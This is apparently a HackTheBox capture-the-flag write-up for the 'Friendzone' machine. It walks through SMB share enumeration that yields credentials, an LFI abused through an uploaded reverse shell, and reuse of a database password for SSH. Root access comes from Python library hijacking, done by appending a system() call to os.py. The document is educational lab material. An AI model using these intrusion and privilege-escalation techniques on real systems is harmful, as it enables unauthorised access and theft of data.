# Friendzone

__URL__: [machines-173](https://www.hackthebox.eu/home/machines/profile/173)

__Machine IP__: 10.10.10.123

__DATE__ : 12/07/2019

__START TIME__: 10:00 PM


***

## `NMAP`





There are quite a few port open. Since the FTP doesn't allow anonymous login let's start with SMB

***

## SMB

I started `enum4linux` on the machine Ip to see if I can find anything interesting.



we can list `general` and `development`. Let's see what we can find in those two shares.

In `development` I found two files named `hello.php` and `revshell.php`. It kinda looks like someone else uploaded these 😜.

In the `general` I found a file name `creds.txt`





`admin:WORKWORKHhallelujah@#`

Let's move on with enumeration.

***

## HTTP


It's a simple page and didn't had anything in the source of the page.

Running gobuster also didn't help me in finding anything good. I decided to move on with the my `enumeration`.

***

## DNS

There's a DNS server running so let's see what we can find from it.



So I decided to use the domain name that is `friendzone.red` and see if it find anything.



I found another domain name `administrator1.friendzone.red`. So if we visit that we are greeted with a plain and simple login page.


We can use the `credentials` we found from SMB to login but I got a message saying to visit `/dashboard.php`



If we visit that page we again get a simple page:



It says something about `image_name` param is missing. And then it's shows the `default` params. If we use those params we get a random `image`.



This could mean that it's `including` the files from the server. It is possible that it's LFI, also because the first message said something about `dealing with beignner level php developer.`

Let's see if we can include any files.

***

## LFI

I tried including files like `/etc/passwd` but it didn't include that file.
Look's like the developer isn't really a `beginner`.

After sometime I found out that we had a read/write permission on the `development` SMB share and I think the website it trying to include files from that server. Because well it's named `development` and the `developer` is a noob so he didn't fixed the permission for that.

The only way to test our theory is to upload a reverse shell on that server and try to include it.


To test if it worked or not I tried lot of path like `image_id=a.jpg&pagename=reverse-shell.php` or `image_id=reverse-shell&pagename=reverse-shell.php` but after some tries I finally got the reverse shell on `image_id=a.jpg&pagename=/etc/Development/reverse-shell`.



***

## User

Once I was in I simply took the flag from the user directory.



I decided to look around a bit in the `/var/www` directory since it usually holds configuration files of the website running which can have credentials(not always though).

I looked around a bit and found `mysql_data.conf` file that had username and password for user `friend`



`friend:Agpyu12!0.213$`

We can try these credentials to login via `SSH`. I was in `friend` account and I think this is where I was supposed to find the `user` flag. 😜

Let's just move on with privilege escalation.

***

## Privilege escalation

Since I am in the system I dowloaded the `enumeration script` from system and ran it.

To download the enumeration script:

* Run python http server i.e `python -m http.server`(python3)
* From the machine run `wget http://IP:port/name-of-script`.

by the way remember to do it in `/tmp`.

I didn't found any interesting `SUID`



and there wasn't anything interesting.

Next I checked the `sudo` rights and nothing :(



Next were the `process` running but nothing in the process.

So I started looking in the directories manually.

After around 15 minutes(or maybe more) I finally found something interesting to look.



We notice few things:

* It's python 2 because print statement doesn't have `()` around it.
* The script does nothing because everything is commented except print statement and imports
* username: `you` and password: `PAPAP`

But using `SMTP` credentials won't bear us anything good(I think). And since the script isn't running anything I am not sure what to do. Plus we can't edit anything.

After looking around and googling a bit I found [privilege-escalation-via-python-library-hijacking](https://rastating.github.io/privilege-escalation-via-python-library-hijacking/)

According to this I can just edit the imported library, in our case `os` and hope it works ;)

First I found the path for the python.



and the best part was that it had `777` permission that mean we can edit it 😏

Now let' see the permission on the `os.py`



we can also edit this. It's going to be easy now. Let's just add a line to the end of the `os.py` and when the `/opt/server_admin/reporter.py` will run it's will import everything which will also execute our "line".

I added the following line:

```python
system(" cp /root/root.txt /tmp/.root.txt");
```

